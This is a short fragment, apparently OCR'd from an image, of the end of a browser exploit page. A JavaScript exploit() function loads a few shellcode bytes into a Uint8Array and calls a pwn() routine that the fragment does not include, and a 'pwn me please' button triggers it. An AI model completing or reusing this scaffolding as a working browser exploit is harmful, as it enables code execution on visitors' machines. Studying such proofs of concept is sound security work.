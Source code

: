```JavaScript
    print('Error: ' + e + '\n' + e.stack)
}
function exploit() {
    shellcode = new Uint8Array(0x100);
    shellcode.set([0xcc, 0xbe, 0x20, 0x18, 0xbe, 0x20, 0x18], 0);
    pwn();
}
</script>
<button onclick='exploit()'>pwn me please</button>
```
